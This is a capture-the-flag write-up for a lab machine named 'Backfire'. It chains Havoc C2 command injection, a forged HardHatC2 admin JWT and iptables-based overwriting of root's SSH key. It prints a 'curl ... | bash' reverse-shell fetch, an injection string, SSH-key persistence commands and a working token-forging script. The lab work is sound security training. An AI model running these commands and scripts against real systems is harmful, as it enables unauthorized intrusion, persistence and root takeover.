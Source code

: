 # Backfire

```
Difficulty: Medium
Operating System: Linux
Hints: True
```


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used                          | Result                                                                                                                                |                                      |
| :--- | :------------ | :-------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------ |
| 1    | `N/A`         | **Nmap Scan**                           | Discovered open ports `22` (SSH), `443`, `5000` (filtered), and `8000` (HTTP). Found two interesting files on `backfire.htb:8000`.    |                                      |
| 2    | `N/A`         | **Havoc Configuration Analysis**        | Discovered `havoc.yaotl` with credentials for users `ilya` and `sergej`. Found disable\_tls.patch showing vulnerable WebSocket usage. |                                      |
| 3    | `N/A`         | **SSRF & WebSocket Exploit**            | Combined public scripts to forge an agent registration and upgrade HTTP to WebSocket communication for command injection.             |                                      |
| 4    | `ilya`        | **Remote Code Execution**               | Exploited vulnerable WebSocket command injection to run \`curl [http://10.10.xx.xx/shell.sh](http://10.10.xx.xx/shell.sh)             | bash`. Obtained initial `user.txt\`. |
| 5    | `ilya`        | **Persistence via SSH Key**             | Appended our public SSH key to `~/.ssh/authorized_keys` to ensure persistent access.                                                  |                                      |
| 6    | `ilya`        | **HardHatC2 JWT Authentication Bypass** | Generated admin JWT token using hardcoded secret and created new privileged user `sth_pentest`.                                       |                                      |
| 7    | `sth_pentest` | **Interactive Terminal Access**         | Logged into HardHatC2 web interface at `https://127.0.0.1:7096/`.                                                                     |                                      |
| 8    | `sergej`      | **Privilege Escalation with iptables**  | Used `sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n<ssh-key>\n'` to overwrite root SSH key.                        |                                      |
| 9    | `root`        | **Root Access**                         | Logged in via SSH as root using the overwritten key and retrieved `root.txt`.                                                         |                                      |


##  Nmap Scan

```bash
[root@kali] /home/kali/Backfire  
❯ nmap backfire.htb -sV -Pn -T4

PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
443/tcp  open     ssl/http nginx 1.22.1
5000/tcp filtered upnp
8000/tcp open     http     nginx 1.22.1



> Visit `http://backfire.htb:8000` and found two files:
>
> * `havoc.yaotl`
> * `disable_tls.patch`

---

## ⚙️ Havoc Configuration (`havoc.yaotl`)

```ini
Teamserver {
    Host = "127.0.0.1"
    Port = 40056
}

Operators {
    user "ilya" { Password = "CobalXXXXXXXXXXXXX" }
    user "sergej" { Password = "1w4nXXXXXXXXXXXXXXXXXX" }
}

Listeners {
    Http {
        Name = "Demon Listener"
        Hosts = ["backfire.htb"]
        HostBind = "127.0.0.1"
        PortBind = 8443
        Secure = true
    }
}
```

---

##  TLS Disabled Patch

The patch disabled TLS and switched from `wss://` to `ws://` for WebSocket connections.

```diff
- auto Server = "wss://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
+ auto Server = "ws://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";

- Socket->setSslConfiguration(SslConf);
- if err = t.Server.Engine.RunTLS(Host+":"+Port, certPath, keyPath); err != nil {
+ if err = t.Server.Engine.Run(Host+":"+Port); err != nil {
```

>  Havoc server is exposed and credentials are available, but direct connection fails.

---

## 🧱 Havoc RCE Vulnerability Exploitation

### Related PoCs Found:

* [Havoc-C2-SSRF-poc by chebuya](https://github.com/chebuya/Havoc-C2-SSRF-poc)
* [c2-vulnerabilities by IncludeSecurity](https://github.com/IncludeSecurity/c2-vulnerabilities)


###  Attack Summary

1. Forge agent registration → open a socket → upgrade HTTP to WebSocket
2. Authenticate to teamserver
3. Create a listener agent
4. Inject a reverse shell command via command injection vulnerability

---

###  Key HTTP Header for WebSocket Upgrade

```http
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: x3JJHMbDXXXXXXXXXX==
Sec-WebSocket-Protocol: chat, superchat
Sec-WebSocket-Version: 13
```

---

###  Final Python Exploit Workflow

```python
# Steps:
# 1. Register forged agent
# 2. Open socket connection
# 3. Upgrade to WebSocket
# 4. Authenticate with teamserver
# 5. Create listener agent
# 6. Inject malicious command

# Example RCE Command
cmd = 'curl http://10.10.xx.xx/shell.sh | bash'

# Final Injection
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
```

> Successfully obtained `user.txt`

---

##  Privilege Escalation (Root)

### 1 Maintain Persistent Access

On the reverse shell:

```bash
echo "your_public_ssh_key" >> ~/.ssh/authorized_keys
```

---

### 2 HardHatC2 Authentication Bypass

SSH Proxy local ports:

```bash
ssh -i ~/.ssh/id_rsa ilya@backfire.htb -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000
```

Generate Admin JWT Token:

```python
import jwt
import datetime
import uuid
import requests

secret = "jtee43gt-6543-2iur-9422-XXXXXXXXXX"
payload = {
    "sub": "HardHat_Admin",
    "jti": str(uuid.uuid4()),
    "iss": "hardhatc2.com",
    "aud": "hardhatc2.com",
    "iat": int(datetime.datetime.utcnow().timestamp()),
    "exp": int((datetime.datetime.utcnow() + datetime.timedelta(days=28)).timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")

burp0_url = "https://127.0.0.1:5000/Login/Register"
burp0_headers = {
    "Authorization": f"Bearer {token}",
    "Content-Type": "application/json"
}
burp0_json = {
    "username": "sth_pentest",
    "password": "sth_pentest",
    "role": "TeamLead"
}

r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
```

>  User `sth_pentest` created successfully
>  Logged into `https://127.0.0.1:7096/` to get terminal access.

---

### 3 iptables Privilege Escalation

Bypass file restrictions by abusing iptables comments.

```bash
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n your_ed25519_pub_keys\n'
sudo iptables-save -f /root/.ssh/authorized_keys
```

>  Persisted root SSH access
>  Finally retrieved `root.txt`



 Successfully completed the box.

